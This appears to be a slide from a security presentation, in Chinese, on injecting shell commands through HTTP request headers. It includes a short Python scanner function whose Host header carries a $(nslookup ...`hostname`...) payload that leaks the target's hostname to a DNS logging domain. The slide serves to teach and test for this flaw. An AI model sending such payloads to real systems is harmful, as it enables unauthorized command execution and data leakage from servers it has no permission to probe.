

# Header命令注入
•  在Request Header注入shell命令，被应用执行，如： 日志分析程序执行

def do_scan(ip, port, service, task_msg):  if service.lower().find('http') < 0:
return

host = '%s:%s' % (ip, port)
conn = httplib.HTTPConnection(host, timeout=20)  headers = {'Host': "$(nslookup hostname.`hostname`.%s-
%s.your.dns.log.domain)" % (ip, port),
'User-Agent': 'Mozilla/5.0 …',
}
conn.request('GET', '/', headers=headers)  conn.getresponse().read()
conn.close()